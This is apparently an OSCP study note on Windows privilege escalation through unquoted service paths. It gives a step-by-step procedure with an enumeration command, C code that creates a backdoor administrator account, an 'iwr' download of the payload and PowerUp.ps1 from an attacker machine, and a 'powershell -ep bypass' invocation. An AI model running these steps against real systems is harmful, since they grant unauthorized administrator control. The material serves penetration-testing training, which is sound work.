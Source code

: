 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/7-unquoted-service-paths/","updated":"2024-01-05T11:35:09.496+01:00"}
---
```


- Works when we have write-permissions to a service's main- or sub-directories but cannot replace files within them.
- Services are started with 'CreateProcess' and the parameter 'IpApplicationName'. If the path that follows that parameter contains one or more spaces and is not enclosed within quotes it may be abused for a privesc.
- Paths are read from left to right, and for every space all preceding words are interpreted as executables, and the rest as arguments. Example:
```
C:\Program Files\My Program\My Service\service.exe
---------------------------------------------------
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- Therefore if that happens an executable with one of those name can be placed an used to privesc.
------------

### Unquoted Service Path Service Privesc:
1. Enumerate running services for misconfigured paths (only works in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2. Check for write access rights in the service's butchered search order swith 'icacls'.
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Restart the service -- win!
-------------------------

### Automatic Unquoted Service Path Privesc with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check for vulerable paths:
```
Get-UnquotedService
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Write-ServiceBinary -Name '<servicename>' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
7. Win!


